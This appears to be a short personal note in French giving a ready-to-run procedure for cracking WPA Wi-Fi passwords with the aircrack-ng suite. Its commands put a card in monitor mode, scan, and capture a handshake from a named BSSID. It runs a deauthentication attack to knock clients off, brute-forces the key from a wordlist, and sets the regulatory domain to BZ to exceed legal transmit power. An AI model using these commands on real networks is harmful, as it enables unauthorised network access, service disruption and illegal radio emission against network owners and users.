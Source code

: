 ```yaml
---
id: wifi_crack
created_date: 16/02/2023
updated_date: 16/02/2023
type: note
---
```


#  wifi_crack
- **🏷️Tags** :  #02-2023 #wifi #crack #tools 

## 📝 Notes

### Mettre sa carte en mode monitor


```bash
sudo ifconfig wlan1 down
sudo iwconfig wlan1 mode monitor
sudo ifconfig wlan1 up
```

pour tester si sa carte est compatible utiliser la commande :


```bash
sudo aireplay-ng --test wlan1
```

### Faire un scan du réseaux 

- dans un premier temps taper la commande 

```bash
sudo airodump-ng wlan1
```

- récupérer le nom de l'interface réseaux qui vous intéresse
- ainsi que son BSSID et que son numéro de channel ( bien vérifier son type d' ENC ).
### lancer l'attaque
on souhaite ici récupérer le handshake et pour cela on va avoir besoin du BSSID et du channel.

```bash

sudo airodump-ng -c 6 --bssid 44:D4:54:ED:F9:60 -w ~/Bureau wlan1

```

pour accélérer les choses on va lancer en même temps une attaque de Dauth contre la machine. ( sinon c'est gavé long ).

```bash
sudo aireplay-ng -0 20 -a E4:9E:12:89:FE:D4  wlan1
```

une fois que le handshake est obtenue et qu'une certaine quantité de requête aussi passer à l'étape suivante.

### crack et brutforce


```bash
aircrack-ng -a2 -b <BSSID> -w /chemi/du/dico.txt ./chemi/du/fichier/cap/enregistrer.cap

```

debrider carte alfa 


```bash
sudo ifconfig wlan1 down  
sudo iw reg set BZ  
sudo iwconfig wlan1 txpower 30  
sudo ifconfig wlan1 up  
iwconfig

```


## Questions/Thoughts


## 🔗 Links
- 